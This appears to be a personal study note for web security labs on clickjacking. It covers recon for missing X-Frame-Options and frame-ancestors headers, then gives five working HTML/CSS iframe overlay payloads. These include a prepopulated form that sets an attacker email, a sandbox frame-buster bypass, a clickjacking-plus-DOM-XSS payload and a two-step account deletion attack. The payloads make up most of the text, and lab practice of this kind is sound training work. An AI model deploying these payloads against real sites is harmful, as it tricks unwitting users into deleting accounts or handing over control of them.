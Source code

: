 ![[Clickjacking.svg]]
# Recon

Identify if the app's responses contain the following headers:

- X-Frame-Options: value
- Content-Security-Policy: frame-ancestors value

If the responses do not contain these headers, then the app is most likely vulnerable to clickjacking.
# Basic Clickjacking

Use a basic clickjacking payload that loads the vulnerable application's page in an \<iframe> which contains a button to delete the user's account. You can use the method to trick a user into clicking on the "Delete account" button on the targeted application.

For example: height: 700px, weight: 500px, opacity: 0.1, top: 500px, left: 100px

>[!info]
>For the labs, the "Test me" text needs to be changed to "Click me".

```html
<style>
    iframe {
        position:relative;
        width: 500px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 495px;
        left: 70px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="$VULNERABLE-APPLICATION-URL"></iframe>
```
# Clickjacking - Prepopulate POST Form with Query Parameters

It may be possible to prepopulate a form used in a POST request, by referencing those body parameters as query parameters in a GET request. Use a clickjacking payload, which will prepopulate a \<form> parameter's values, by using query parameters in a GET request.

Include this targeted web page in an \<iframe>. Since the form will be prepopulated, you only need to induce the user into clicking on the button that will submit the POST request. For example:

```css
height: 700px , weight: 500px , opacity: 0.1 , top: 500px , left: 100px
```

```html
<style>
    iframe {
        position:relative;
        width: 500px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 440px;
        left: 80px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="$VULNERABLE-APPLICATION-URL?email=hacker@attacker-website.com"></iframe>
```
# Prepopulate Form + Frame Buster Script Bypass

It may be possible to prepopulate a form used in a POST request by referencing those body parameters as query parameters in a GET request. Use a clickjacking payload which will prepopulate a \<form> parameter's value, using a query parameter in a GET request.

Include this targeted web page in an \<iframe> with the attribute 'sandbox="allow-forms"', which will neutralize the frame buster script. Since the form will be prepopulated, you only need to induce the user into clicking on the button that will submit the POST request.

For example:

```css
height: 700px , weight: 500px , opacity: 0.1 , top: 500px , left: 100px
```

```html
<style>
    iframe {
        position:relative;
        width: 500px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 450px;
        left: 80px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe sandbox="allow-forms"
src="$VULNERABLE-APPLICATION-URL?email=hacker@attacker-website.com"></iframe>
```
# Prepopulate Form + DOM XSS Exploit

It may be possible to prepopulate a form used in a POST request by referencing those body parameters as query parameters in a GET request. Use a clickjacking payload which will prepopulate a \<form> parameter's value, using query parameters in a GET request.

One of these parameters will include an XSS payload, as a client-side script on the app is using the parameter's value in a dangerous Sink (innerHTML). Combining both clickjacking and XSS leads to a higher impact. Without the clickjacking vulnerability, the XSS would be more difficult to pull off since the form requires a CSRF token.

Include this targeted web page in an \<iframe>. Since the form will be prepopulated, you only need to induce the user into clicking on the button that will submit the POST request.

For example:

```css
height: 700px , weight: 500px , opacity: 0.1 , top: 500px , left: 100px
```

```html
<style>
	iframe {
		position:relative;
		width: 500px;
		height: 700px;
		opacity: 0.1;
		z-index: 2;
	}
	div {
		position:absolute;
		top: 610px;
		left: 80px;
		z-index: 1;
	}
</style>
<div>Click me</div>
<iframe
src="$VULNERABLE-APPLICATION-URL?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```
# 2-Step Clickjacking Attack

Use a basic clickjacking attack that loads the vulnerable app's page in an \<iframe> which contains a button to delete the user's account. You can use this method to trick a user into clicking on the "Delete account" button, then confirm the action by clicking on another button on the targeted app.

For example:

```css
height: 700px , weight: 500px , opacity: 0.1 , top: 500px , left: 100px
```

```html
<style>
	iframe {
		position:relative;
		width: 500px;
		height: 700px;
		opacity: 0.1;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top: 500px;
		left: 50px;
		z-index: 1;
	}
   .secondClick {
		top: 290px;
		left: 225px;
	}
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="$VULNERABLE-APPLICATION-URL"></iframe>
```
